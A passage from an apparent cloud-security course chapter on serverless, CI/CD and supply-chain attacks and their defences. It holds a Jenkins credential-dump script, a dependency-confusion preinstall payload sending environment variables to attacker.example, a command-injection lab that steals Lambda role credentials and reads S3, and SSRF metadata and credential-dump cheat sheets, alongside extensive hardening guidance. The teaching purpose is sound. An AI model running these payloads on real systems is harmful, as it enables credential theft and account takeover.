com.cloudbees.plugins.credentials.SystemCredentialsProvider.getInstance().getCredentials().forEach {
  println(it.id + " : " + (it.hasProperty('password') ? it.password : it.getSecret()))
}
```

**Blue team usage:** the Script Console should never be reachable unauthenticated; alert on any `/script` access and treat it as an incident.

---

## Part 6: OIDC Trust — the Modern Pipeline's Soft Spot

Long-lived cloud keys in CI are the classic leak. The fix — **OIDC federation** — is better, but its *trust policy* is subtle and frequently misconfigured, which trades a "leaked key" problem for a "wrong repo can assume our role" problem.

How it works: the runner asks its CI provider for a short-lived, signed **OIDC token** (a JWT) describing the workflow — the repo, branch, environment, event, etc., in claims like `sub`, `repository`, and `ref`. It presents that token to AWS STS (`AssumeRoleWithWebIdentity`) / Azure / GCP, which validates the signature against the provider's public keys **and checks the token's claims against a trust policy**. If they match, it issues temporary cloud credentials — no stored secret anywhere.



The whole security of this rests on the **`Condition` block** of the role's trust policy. A correct one pins the exact repo and ref:

```json
{
  "Effect": "Allow",
  "Principal": { "Federated": "arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com" },
  "Action": "sts:AssumeRoleWithWebIdentity",
  "Condition": {
    "StringEquals": {
      "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
      "token.actions.githubusercontent.com:sub": "repo:my-org/my-repo:ref:refs/heads/main"
    }
  }
}
```

The dangerous misconfigurations attackers hunt for:

| Misconfiguration | Trust condition looks like | Why it's exploitable |
|---|---|---|
| No `sub` condition at all | only checks `aud` | **Any** GitHub repo on the planet can assume the role |
| Wildcard `sub` | `repo:my-org/*` | any repo in the org, including a low-trust or attacker-invitable one |
| `ref` not pinned | `repo:my-org/my-repo:*` | any branch/PR/tag — a PR from a fork can hit it |
| Wrong audience left default | `aud` unrestricted | token-confusion across providers |
| `pull_request` allowed to assume | `...:pull_request` | untrusted fork PR gets cloud creds |

Finding these as an attacker: if you can read the Terraform/IaC or you can trigger a workflow, inspect the assumed role and its trust policy (`aws iam get-role`). Exploiting a missing `sub` is as simple as creating your own repo, adding an OIDC-auth workflow pointed at the victim's role ARN, and letting STS hand you credentials. **This is a rising real-world attack class** as orgs migrate off static keys.

**Defense (expanded in Part 9):** always pin `sub` to the exact `repo:org/name` *and* the exact `ref` (branch or `environment`), set `aud` explicitly, and prefer GitHub **environments** with required reviewers as the `sub` scope for production roles.

---

## Part 7: Software Supply-Chain Attacks

The pipeline builds artefacts out of *dependencies*, and every dependency is code you execute with your build's privileges. Supply-chain attacks target that trust. This is the highest-blast-radius category in the whole chapter: one compromised popular package or build server reaches thousands of victims at once.



### 7.1 Typosquatting

Publish a malicious package whose name is a common misspelling of a popular one (`requsts` for `requests`, `crossenv` for `cross-env`, `electerm` variants). A developer's typo installs your code. The payload is usually in the install step so it runs at `npm install` / `pip install` time — before any of the victim's own code runs.

### 7.2 Dependency confusion (substitution)

Discovered by Alex Birsan in 2021, this abuses how package managers resolve names across **public and private registries**. If an organisation uses an internal package `@acme/payments-lib` that exists only in their private registry, and the resolver is configured (or defaults) to also check the public registry, an attacker who publishes `@acme/payments-lib` (or the unscoped `payments-lib`) to the *public* registry with a **higher version number** can get the resolver to pull the attacker's package instead. The malicious `preinstall`/`postinstall` script then runs inside the victim's build — frequently a CI runner holding cloud creds.

```json
// package.json of the attacker's public package — the payload runs at install
{
  "name": "acme-internal-utils",
  "version": "99.0.0",
  "scripts": {
    "preinstall": "node -e \"require('https').get('https://attacker.example/c?d='+Buffer.from(JSON.stringify(process.env)).toString('base64'))\""
  }
}
```

Birsan used exactly this (benignly) to get code execution inside Apple, Microsoft, PayPal, Shopify, and dozens of others. **Bug bounty angle:** dependency confusion is a paid finding on many programs — enumerate an org's internal package names (leaked in error messages, public source, JS bundles, `package.json` of open-source projects) and check whether those names are unclaimed on the public registry. Reserve the name (do *not* ship a real payload) and report.

### 7.3 Malicious install scripts and the npm lifecycle

npm/yarn run **lifecycle scripts** (`preinstall`, `install`, `postinstall`) automatically on install, which is the mechanism most package attacks abuse. Real incidents: **`event-stream`** (a maintainer handed off the package; the new "maintainer" added a dependency that stole Bitcoin wallets), **`ua-parser-js`** and **`coa`/`rc`** (maintainer account takeovers that shipped cryptominers and password stealers), and **`node-ipc`** (protestware that wiped files based on geolocation). Defensive countermeasure: `npm install --ignore-scripts` and pinned lockfiles (see Part 9).

### 7.4 Build-server compromise: SolarWinds

The apex example. Attackers compromised SolarWinds' **build system** and inserted the **SUNBURST** backdoor into the Orion product *during compilation*, so the malicious code was present in the **legitimately signed** release shipped to ~18,000 customers, including US government agencies. The lesson that reshaped the industry: **signing the artefact is not enough if the build environment itself is compromised** — you must be able to prove *how* the artefact was built (provenance), which is exactly what SLSA and reproducible builds address.

### 7.5 Backdoored release artefact: xz/liblzma (CVE-2024-3094)

A patient, multi-year social-engineering campaign gave a malicious actor maintainer trust over the `xz` compression library, who then hid a backdoor in the **release tarball's build scripts** (not the public git tree) that, when linked into `sshd` via `liblzma` on certain distros, allowed remote authentication bypass. Caught by a Microsoft engineer noticing a ~500 ms SSH latency. The lessons: **maintainer trust is an attack surface**, **the release tarball can differ from the git source** (why reproducible builds matter), and **obfuscated payloads hide in test fixtures and build glue**.

| Incident | Vector | Blast radius | Key lesson |
|---|---|---|---|
| SolarWinds / SUNBURST | build-server implant | ~18,000 orgs | sign + prove provenance of the build |
| event-stream | maintainer handoff → malicious dep | millions of installs | audit transitive deps & new maintainers |
| ua-parser-js | account takeover → miner/stealer | huge (top npm pkg) | 2FA on maintainer accounts, pin versions |
| dependency confusion | public/private name resolution | Apple/MS/PayPal/... | scope pinning, private-registry priority |
| xz/liblzma (CVE-2024-3094) | backdoor in release tarball | near-miss on all Linux sshd | reproducible builds, tarball≠git audit |

---

## Part 8: Hands-On Lab — Exploit a Function, Poison a Pipeline, Squat a Dependency

This lab is fully reproducible in **your own AWS account and your own private GitHub repo**. It chains the three attack classes: (A) exploit a vulnerable Lambda and abuse its role, (B) exfiltrate secrets from a misconfigured GitHub Actions workflow, and (C) demonstrate dependency confusion locally. Everything is lab-scoped; do not point any of it at systems you do not own.

### Lab A — Vulnerable Lambda → execution-role loot

**Deploy the target.** Create a role and a function (a minimal, deliberately over-permissioned setup):

```bash
# 1. Trust policy so Lambda can assume the role
cat > trust.json <<'EOF'
{"Version":"2012-10-17","Statement":[{"Effect":"Allow",
"Principal":{"Service":"lambda.amazonaws.com"},"Action":"sts:AssumeRole"}]}
EOF
aws iam create-role --role-name vuln-lambda-role \
  --assume-role-policy-document file://trust.json

# 2. Over-broad policy (the vulnerability we will exploit)
aws iam attach-role-policy --role-name vuln-lambda-role \
  --policy-arn arn:aws:iam::aws:policy/AmazonS3FullAccess
aws iam attach-role-policy --role-name vuln-lambda-role \
  --policy-arn arn:aws:iam::aws:policy/service-role/AWSLambdaBasicExecutionRole

# 3. The vulnerable handler
mkdir fn && cat > fn/index.js <<'EOF'
const { execSync } = require('child_process');
exports.handler = async (event) => {
  const host = (event.queryStringParameters||{}).host || "127.0.0.1";
  const out = execSync("ping -c1 " + host).toString();   // command injection
  return { statusCode: 200, body: out };
};
EOF
(cd fn && zip -qr ../fn.zip .)

# 4. Create the function + a Function URL for easy HTTP access
ROLE_ARN=$(aws iam get-role --role-name vuln-lambda-role --query Role.Arn --output text)
aws lambda create-function --function-name vuln-ping \
  --runtime nodejs20.x --handler index.handler \
  --zip-file fileb://fn.zip --role "$ROLE_ARN" \
  --environment "Variables={DB_PASSWORD=SuperSecret123}"
aws lambda create-function-url-config --function-name vuln-ping --auth-type NONE
aws lambda add-permission --function-name vuln-ping --statement-id public \
  --action lambda:InvokeFunctionUrl --principal '*' --function-url-auth-type NONE
URL=$(aws lambda get-function-url-config --function-name vuln-ping --query FunctionUrl --output text)
echo "$URL"
```

**Exploit it.** Inject `;env` to leak the role creds and the env-var secret:

```bash
curl "${URL}?host=127.0.0.1;env"
```

Expected (abridged) output:

```text
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.019 ms

AWS_LAMBDA_FUNCTION_NAME=vuln-ping
AWS_REGION=us-east-1
AWS_ACCESS_KEY_ID=ASIAEXAMPLE...
AWS_SECRET_ACCESS_KEY=...
AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjE...==
DB_PASSWORD=SuperSecret123
```

**Loot the role from your own shell:**

```bash
export AWS_ACCESS_KEY_ID=ASIAEXAMPLE...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjE...==
aws sts get-caller-identity            # confirm we are vuln-lambda-role
aws s3 ls                              # AmazonS3FullAccess -> read every bucket
aws s3 cp s3://some-sensitive-bucket/backup.sql - | head
```

You have gone from one HTTP parameter to reading every S3 bucket in the account — the whole point of the "role is the crown jewel" lesson. **Clean up:** `aws lambda delete-function --function-name vuln-ping`, delete the URL config, detach policies, and `aws iam delete-role`.

### Lab B — GitHub Actions secret exfiltration (private repo, safe)

In a **private repo you own**, add a repository secret `LAB_SECRET` with a dummy value, then commit this deliberately-vulnerable workflow to a feature branch:

```yaml
# .github/workflows/leak.yml  — LAB ONLY, private repo you own
name: leak-demo
on: [push]
jobs:
  leak:
    runs-on: ubuntu-latest
    steps:
      - name: show that untrusted code can read secrets
        env:
          TOKEN: ${{ secrets.LAB_SECRET }}
        run: |
          echo "length of secret: ${#TOKEN}"        # never echo the secret itself
          # In a real attack this would be exfiltrated; here we only prove access:
          echo "$TOKEN" | sha256sum
```

Push it and read the run in the Actions tab. The point: any step in a triggered job can read every secret scoped to it, which is why untrusted code (a fork PR via `pull_request_target`, or an indirect-PPE editable build file) must never run in a secret-bearing job. Now **fix it** by moving secret-using steps behind an `environment` with required reviewers and by never checking out untrusted refs in privileged workflows. Scan the repo with the open-source linters:

```bash
pip install checkov
checkov -d . --framework github_actions --compact
# or dedicated Actions scanners:
# - zizmor (https://github.com/woodruffw/zizmor)
# - actionlint (syntax + some security)
pipx install zizmor && zizmor .github/workflows/
```

`zizmor` will flag `pull_request_target` misuse, unpinned action versions, and template-injection sinks like `${{ github.event.issue.title }}` used directly in `run:`.

### Lab C — Dependency confusion, demonstrated locally

Create two tiny registries' worth of behaviour without touching the public one. First, an "internal" package your app depends on:

```bash
mkdir dep-confusion && cd dep-confusion
# The victim app depends on an internal-sounding package
cat > package.json <<'EOF'
{ "name":"victim-app","version":"1.0.0","dependencies":{"acme-internal-utils":"^1.0.0"} }
EOF
```

Now build the "attacker" package with a benign install-time proof (prints instead of exfiltrating):

```bash
mkdir attacker-pkg && cd attacker-pkg
cat > package.json <<'EOF'
{
  "name": "acme-internal-utils",
  "version": "99.0.0",
  "scripts": { "preinstall": "node -e \"console.log('[PWNED] preinstall ran with env keys:', Object.keys(process.env).length)\"" }
}
EOF
npm pack        # produces acme-internal-utils-99.0.0.tgz
cd ..
```

Install the local tarball to show the lifecycle script fires *before* your code:

```bash
npm install ./attacker-pkg/acme-internal-utils-99.0.0.tgz
```

```text
> acme-internal-utils@99.0.0 preinstall
> node -e "console.log('[PWNED] preinstall ran with env keys:', Object.keys(process.env).length)"

[PWNED] preinstall ran with env keys: 47
```

That single line is the entire attack primitive: **arbitrary code executed at install time, with the environment (and thus CI secrets) in scope**, purely because of a package name and a higher version number. The defensive fix — `.npmrc` scoping and `--ignore-scripts` — is in Part 9. **Clean up:** delete the `dep-confusion` directory.

---

## Part 9: Detection & Defense Angle

Everything above has a defensive inverse. This is the consolidated blue-team / platform-engineering section; treat it as the checklist you actually deploy.

### 9.1 Serverless hardening

- **Least-privilege execution roles.** One role per function, scoped to the exact ARNs and actions it needs. Never attach managed `*FullAccess` or `AdministratorAccess`. Deny `iam:PassRole` unless truly required, and constrain it to specific roles. Run `checkov`/`tfsec` in CI to block over-broad policies before deploy.
- **Get secrets out of env vars.** Use Secrets Manager / SSM Parameter Store / Key Vault with runtime fetch and encryption; env vars are visible to anyone with `GetFunctionConfiguration` and to any injection.
- **Validate all event data.** Treat every field of the event as hostile input; never pass it to a shell, `eval`, or an unparameterised query. Use allow-lists.
- **Block metadata SSRF.** Enforce IMDSv2 (token-required) on EC2-backed workloads; egress-filter functions so they cannot reach arbitrary URLs; put a WAF/allowlist in front of any URL-fetching feature so it can never point at `169.254.169.254`.
- **Detect via CloudTrail, not the host.** Since there is no host, your telemetry is the role's API activity. Alert on: a function role calling `sts:GetCallerIdentity` from an *external* IP, `s3:ListAllMyBuckets`/mass `GetObject` by a function role, `iam:*`/`lambda:CreateFunction`/`UpdateFunctionCode` by a role that never did before, and use of function creds from outside AWS IP ranges (the tell-tale sign creds were exfiltrated and used off-box). GuardDuty's `UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration` finding catches exactly this.

### 9.2 CI/CD hardening

- **Branch protection + required reviews** on any branch that can trigger deploys, and **CODEOWNERS** on `.github/workflows/` so workflow changes need maintainer approval.
- **Never combine `pull_request_target` with checkout+run of PR code.** If you need PR context with elevated rights, split into two workflows: an untrusted `pull_request` job that builds with *no* secrets, and a separate trusted job (via `workflow_run`) that consumes only vetted artefacts.
- **Least-privilege `GITHUB_TOKEN`:** set `permissions: {contents: read}` at the top of every workflow and elevate per-job only where needed.
- **No self-hosted runners on public repos.** If self-hosted is required, use ephemeral, single-job, network-isolated runners with no standing cloud credentials.
- **Pin actions by full commit SHA**, not `@v4` (a tag can be moved). Enable Dependabot for actions.
- **Secret scanning + push protection** (gitleaks in CI, GitHub secret scanning) so a committed key is caught and rotated.
- **Harden Jenkins:** authenticate the Script Console, disable it in prod if unused, restrict agent-to-controller access, and store credentials in a proper vault.

### 9.3 OIDC trust hardening

- Pin the trust policy `sub` to `repo:ORG/REPO:ref:refs/heads/main` **or** to a GitHub **environment** (`repo:ORG/REPO:environment:production`) protected by required reviewers.
- Set `aud` explicitly (`sts.amazonaws.com`).
- Never leave `sub` unconstrained or wildcarded; audit every federated role with `aws iam get-role` and diff against expected repos.

### 9.4 Supply-chain defense

- **Lockfiles + integrity hashes** (`package-lock.json`, `poetry.lock`, `go.sum`) committed and enforced (`npm ci`, not `npm install`).
- **`--ignore-scripts`** by default for installs where lifecycle scripts aren't needed; vet packages that require them.
- **Scope internal packages** and pin the registry so private names never resolve to the public registry: an `.npmrc` with `@acme:registry=https://internal` and, crucially, reserve your internal names on the public registry as placeholders to defeat confusion.
- **SCA / SBOM:** generate a Software Bill of Materials (`syft`, CycloneDX) and scan dependencies (`Trivy`, `grype`, Dependabot, Snyk) continuously.
- **Sign and verify artefacts with Sigstore/cosign**, and adopt **SLSA** provenance so consumers can verify *how* an artefact was built, not just *that* it was signed. Reproducible builds close the SolarWinds/xz gap by letting anyone rebuild and byte-compare the artefact.

**SLSA (Supply-chain Levels for Software Artifacts)** is a maturity framework: each level demands stronger, harder-to-forge guarantees about the build. Map your pipeline against it and climb:

| SLSA level | What it requires | Attack it stops |
|---|---|---|
| **Level 0** | no guarantees | nothing |
| **Level 1** | build is scripted + provenance is *generated* (even if unsigned) | "we don't know how this was built" |
| **Level 2** | provenance is *signed* by a hosted build service; source + build are version-controlled | tampering with provenance after the fact |
| **Level 3** | build runs on a *hardened, isolated* platform; provenance is *non-forgeable* (ephemeral, isolated build identity) | a compromised build step forging its own provenance (the SolarWinds class) |

The practical adoption path: turn on provenance generation in your CI (GitHub's `actions/attest-build-provenance`, or the SLSA GitHub generator), sign it via keyless cosign (which logs to the Rekor transparency log), and enforce a **verification policy** at deploy time — a Kubernetes admission controller (Sigstore `policy-controller`, Kyverno, or OPA/Gatekeeper) that refuses any image whose signature or provenance attestation does not match the expected builder identity and source repo. That last step is what turns signing from a nice-to-have into an actual control: an unverified-but-signed image is still rejected if its provenance says it was built somewhere unexpected.



### 9.5 Tooling round-up for defenders (from scratch)

- **gitleaks** — scans a repo's history for committed secrets: `gitleaks detect --source . -v`. Run in CI to block leaks.
- **Trivy** — one scanner for images, filesystems, IaC, and dependencies: `trivy fs --scanners vuln,secret,misconfig .`.
- **cosign** (part of Sigstore) — keyless artefact signing/verification: `cosign sign $IMAGE` / `cosign verify $IMAGE`. Provides the signature + transparency-log entry that anchors provenance.
- **checkov / tfsec / zizmor / actionlint** — static analysis for IaC and Actions workflows (covered above).

---

## Part 10: Real-World Cases and CVEs to Study

- **Dependency confusion (Birsan, 2021)** — the research that named the class; read the write-up and reproduce the name-resolution logic in Lab C.
- **CVE-2024-3094 (xz/liblzma backdoor)** — study the timeline of maintainer social engineering and how the payload hid in the release tarball's build machinery.
- **SolarWinds / SUNBURST (2020)** — the canonical build-server compromise; drives the entire SLSA and provenance movement.
- **event-stream / ua-parser-js / coa / rc / node-ipc** — a cluster of npm maintainer-account and handoff compromises; each teaches a distinct lifecycle-script or trust lesson.
- **GitHub Actions `pull_request_target` disclosures** — numerous bug-bounty and security-lab writeups (GitHub Security Lab, Praetorian, Legit Security's "GitHub Actions" research) show real repos leaking secrets to fork PRs.
- **Codecov Bash Uploader (2021)** — a modified CI uploader script exfiltrated env vars (and thus secrets) from thousands of pipelines; a pure CI supply-chain incident.
- **Capital One (2019)** — SSRF to EC2 metadata → over-permissioned role → S3 exfiltration; the same "SSRF → metadata → role" chain this chapter teaches for functions.

---

## Part 11: Building the Lab Environment

- **AWS account (personal/sandbox):** everything in Lab A runs on the free-ish tier; delete resources after. Set a billing alarm.
- **CloudGoat** (Rhino Security Labs): deploy the `lambda_privesc`, `iam_privesc_by_rollback`, and `cicd` scenarios — they reproduce execution-role privesc and pipeline attacks with a single `./cloudgoat.py create`.
- **flAWS2** (flaws2.cloud): the "attacker" and "defender" tracks include a Lambda + IMDS chain that mirrors Part 2 and 9 end-to-end, in-browser, free.
- **PwnedLabs** cloud ranges: several serverless and CI/CD scenarios with guided objectives.
- **Local:** `kind`/Docker for any container bits, Node.js + npm for Lab C, a **private** GitHub repo for Lab B. Never test Actions attacks on a repo you don't own, and never publish a confusion package to the real public registry.

Always tear down cloud resources when done — an over-permissioned lab role left live is itself the vulnerability this chapter is about.

---

## Part 12: Final Revision / Summary

- **Serverless = code wearing a cloud identity.** You don't keep a shell; you steal the **execution role / managed identity / service account** and its reach. Dump env + the credentials/metadata endpoint the instant you have execution.
- **Event data is attacker input.** Injection into a function runs with the role's privileges. Env-var secrets and over-broad roles turn one function into whole-account access.
- **SSRF → metadata** is the universal cloud pivot — `169.254.169.254` (AWS/Azure, Azure needs `Metadata:true`) and `metadata.google.internal` (needs `Metadata-Flavor: Google`).
- **CI/CD is the most privileged robot you own.** Getting *your* code to run in *its* job (Poisoned Pipeline Execution) leaks every secret it can read. `pull_request_target` + checkout of PR code is the signature foot-gun; self-hosted runners on public repos are a critical misconfiguration; indirect PPE means "only maintainers edit workflows" isn't enough.
- **OIDC fixed leaked keys but added a trust-policy trap.** An unpinned or wildcarded `sub` lets the wrong repo/branch assume your cloud role. Pin `repo:org/name:ref:...` or an environment.
- **Supply chain = executing others' code with your privileges.** Typosquatting and dependency confusion run at *install* time; maintainer takeover and build-server implants (SolarWinds, xz) reach thousands at once. Signing proves *who*; provenance/SLSA and reproducible builds prove *how*.
- **Defense is least privilege + trust pinning + provenance:** scoped roles, no env-var secrets, validated events, IMDSv2, branch protection + least-privilege `GITHUB_TOKEN`, no self-hosted runners on public repos, SHA-pinned actions, OIDC `sub` pinning, lockfiles + `--ignore-scripts` + registry scoping, SBOMs, and cosign/SLSA verification.

---

## Part 13: Cheat Sheet / Quick Reference

**Serverless post-exploitation (once you have code exec):**

```bash
env | grep -Ei 'AWS_|AZURE|GCP|TOKEN|SECRET|KEY|PASS'   # dump creds + secrets
cat /var/runtime/... ; ls -la /tmp                       # deploy pkg + writable /tmp
# AWS: use leaked creds
export AWS_ACCESS_KEY_ID=... AWS_SECRET_ACCESS_KEY=... AWS_SESSION_TOKEN=...
aws sts get-caller-identity
aws lambda list-functions --query 'Functions[].FunctionName'
aws lambda get-function-configuration --function-name X --query Environment.Variables
aws ssm get-parameters-by-path --path / --recursive --with-decryption
aws secretsmanager list-secrets
```

**Metadata / SSRF payloads:**

```text
AWS   : http://169.254.169.254/latest/meta-data/iam/security-credentials/
Azure : http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/   (header: Metadata: true)
GCP   : http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token   (header: Metadata-Flavor: Google)
```

**CI/CD recon (checked-out repo):**

```bash
grep -rEi "pull_request_target|workflow_run|self-hosted" .github/ .gitlab-ci.yml Jenkinsfile
grep -rEo "secrets\.[A-Z_]+" .github/workflows/
grep -rEo "uses: [^@]+@v[0-9]+" .github/workflows/     # unpinned actions
```

**Dangerous CI patterns:** `pull_request_target` + checkout PR code · self-hosted runner on public repo · `permissions: write-all` · unpinned `@vN` actions · `${{ github.event.* }}` used directly in `run:` (template injection).

**OIDC trust must-haves:** explicit `aud` · `sub` pinned to `repo:org/name:ref:refs/heads/main` or `:environment:prod` · no wildcards.

**Supply-chain hygiene:**

```bash
npm ci --ignore-scripts            # deterministic, no lifecycle scripts
gitleaks detect --source . -v      # committed secrets
trivy fs --scanners vuln,secret,misconfig .
cosign verify $IMAGE               # provenance/signature check
```

**Key metadata IPs/ports:** `169.254.169.254` (AWS/Azure IMDS) · `metadata.google.internal` (GCP) · GitHub OIDC issuer `token.actions.githubusercontent.com`.

---

## Part 14: Common Pitfalls

- **Assuming "no server" means "nothing to attack".** The role, the events, the secrets, and the pipeline that built the function are all attack surface.
- **Storing secrets in Lambda env vars.** Visible to `GetFunctionConfiguration` and every injection — use a secrets store.
- **Attaching `*FullAccess` to a function "to make it work".** That is the single most common serverless critical.
- **Believing OIDC is automatically safe.** The trust policy `sub`/`aud` conditions are where security actually lives; an unpinned `sub` is worse than a rotated static key.
- **Thinking "only maintainers can edit workflows" stops PPE.** Indirect PPE runs via editable build files (Makefile, package.json, tests) — no workflow edit needed.
- **Running untrusted PR code in a secret-bearing job** via `pull_request_target` + checkout — the textbook secret-leak.
- **`npm install` in CI instead of `npm ci`**, and leaving lifecycle scripts enabled — hands install-time RCE to any compromised dependency.
- **Signing artefacts but not proving provenance.** SolarWinds shipped a validly-signed backdoor; you need SLSA/reproducible builds, not just a signature.
- **Leaving lab resources live.** An over-permissioned test role or a `--auth-type NONE` function URL is a real exposure — tear everything down.

---

## Part 15: Practice Labs & Resources

Train each skill in this chapter on a range built for it:

- **CloudGoat** (Rhino Security Labs) — `lambda_privesc` (execution-role privesc via `PassRole`/`UpdateFunctionCode`), `iam_privesc_by_rollback`, and the CI/CD scenarios map almost 1:1 to Parts 2, 5, and 6. Deploy with `./cloudgoat.py create <scenario>`.
- **flAWS2** (flaws2.cloud) — free, in-browser; the attacker track walks Lambda + IMDS credential theft, the defender track walks the exact CloudTrail/least-privilege controls from Part 9.
- **PwnedLabs** — guided cloud ranges including serverless privilege escalation and CI/CD secret theft.
- **GitHub Security Lab & "GitHub Actions" research** (GitHub Security Lab, Legit Security, Praetorian write-ups) — real `pull_request_target` and PPE case studies; reproduce them in a **private** repo per Lab B.
- **cicd-goat** (Cider/Legit's deliberately-vulnerable CI/CD range) — a purpose-built range covering PPE, secret exfiltration, and OIDC misconfig with a scoreboard.
- **Alex Birsan's dependency-confusion write-up** — read it, then reproduce the resolution logic locally (Lab C) without ever publishing to the public registry.
- **CVE-2024-3094 (xz) post-mortems** and the **SLSA framework docs** (slsa.dev) + **Sigstore/cosign docs** — the authoritative source for the provenance controls in Part 9.
- **PortSwigger Web Security Academy — SSRF labs** — the metadata-endpoint SSRF payloads transfer directly to cloud functions.

Practice the full chain end-to-end at least once: exploit a function, steal and use its role, then separately poison a private pipeline and watch a secret leak, and finally trigger an install-time script via a name-confusion package locally. Once "the role and the pipeline are the target, not the server" is muscle memory, you understand serverless and supply-chain attack and defense at the level this chapter is aiming for. The next chapter closes the Cloud Security notebook by turning fully to the defender's side — **cloud detection, logging, and defensive guardrails** — the CloudTrail, audit-log, and policy-as-code machinery that catches everything you just learned to do.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/cloud-security/08-serverless-ci-cd-and-supply-chain-attacks), with comments and the latest edits.*
